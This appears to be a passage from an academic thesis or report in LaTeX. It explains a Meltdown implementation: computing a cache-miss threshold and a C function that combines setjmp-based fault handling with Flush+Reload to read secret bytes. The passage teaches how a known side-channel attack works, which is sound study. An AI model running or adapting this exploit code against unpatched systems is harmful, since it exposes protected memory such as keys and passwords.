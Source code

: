 \documentclass[a4paper,oneside,openright] {scrreprt}
\begin{document}
Afterwards the access time is measured to detect how long it takes to retrieve the cached value. 
Then the pointer's referenced data is removed from the cache in line 17 and thus reloaded from memory in every iteration.
At the end the average access time for cache hits and cache misses are computed.
Listing ~\ref{lst:computeThreshold} shows the final computation of \texttt{cache\_miss\_threshold}.

\begin{lstlisting}[language=C, caption=Meltdown: Cache Miss Threshold 2, label={lst:finalthreshold}]
config.cache_miss_threshold = (flush_reload_time + reload_time * 2) / 3;
\end{lstlisting}

\subsection{Reading Secret Bytes}
\label{ch:intro:motivation:A}

This section shows how all parts mentioned above are connected to read secret bytes.
In listing ~\ref{lst:readsecretbytes} a working Meltdown implementation is shown which utilizes
signal handlers. The implementation for Intel TSX processors is equivalent.
Just line 6 is specific to the signal handler technique where \texttt{setjmp} is used to save the program's execution state.
When a segmentation faults occurs \texttt{longjmp} in listing ~\ref{lst:signalhandler} is called to reestablish the program's state
without restoring the signal mask.

Line 7 contains the Meltdown core instructions shown in listing ~\ref{lst:meltdown}.
After their execution Flush+Reload is applied to the variable \texttt{mem} which contains the data
from a specific location of the probe array. As already explained the access location is interweaved with a
secret byte so that the index of the cached element has to be found to reveal it.


\begin{lstlisting}[language=C, caption=Meltdown: Reading Secret Bytes, label={lst:readsecretbytes}]
int __attribute__((optimize("-Os"), noinline)) libkdump_read_signal_handler() {
    size_t retries = config.retries + 1;
    uint64_t start = 0, end = 0;
  
    while (retries--) {
      if (!setjmp(buf)) {
        MELTDOWN;
      }
  
      int i;
      for (i = 0; i < 256; i++) {
        if (flush_reload(mem + i * 4096)) {
          if (i >= 1) {
            return i;
          }
        }
        sched_yield();
      }
      sched_yield();
    }
    return 0;
}
\end{lstlisting}
\end{document}
